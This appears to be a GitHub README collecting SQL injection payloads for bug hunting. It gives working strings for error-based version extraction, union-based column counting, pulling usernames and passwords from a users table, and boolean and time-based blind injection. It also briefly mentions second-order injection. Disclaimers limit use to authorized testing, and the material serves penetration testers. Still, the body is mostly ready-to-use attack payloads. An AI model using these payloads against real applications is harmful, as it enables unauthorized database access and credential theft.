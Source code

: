 # Advanced SQL Injection Techniques

Here are some Advanced SQL Injection Techniques I commonly use. Happy hunting! 👍

**Note:** ⚠️⚠️These advanced techniques should be used responsibly and only in legal and authorized testing scenarios. They go beyond the basics and exploit specific features and configurations of databases. Additionally, I may have unintentionally included openly available techniques from various sources.

**WARNING:** ⚠️⚠️If you don't know what you are doing, please refrain from using these techniques. Improper use may harm the database.

The techniques shown in this repository are intended for educational purposes only and for testing in authorized environments. [https://x.com/Fr4nzisko1](https://x.com/Fr4nzisko1) and [https://github.com/Fr4nzisko](https://github.com/Fr4nzisko) assume no responsibility for misuse of the techniques shown below. Use them at your own risk. Do not attack targets for which you do not have permission.

## 1. Advanced Payloads and Techniques

### Error-Based SQL Injection

**Advanced Error Payloads:**
```sql
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- -
```

### Union-Based Injection

**Determining the Number of Columns:**
```sql
' UNION SELECT NULL, NULL, NULL, NULL -- 
```

**Extracting Data:**
```sql
' UNION SELECT username, password, NULL, NULL FROM users -- 
```

### Blind SQL Injection

**Boolean-Based Blind:**
```sql
' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END) -- 
```

**Time-Based Blind:**
```sql
' AND IF(1=1, SLEEP(5), 0) -- 
```

### Second-Order SQL Injection

Injection in Profile Information: Modify data stored in one place to affect queries executed elsewhere.

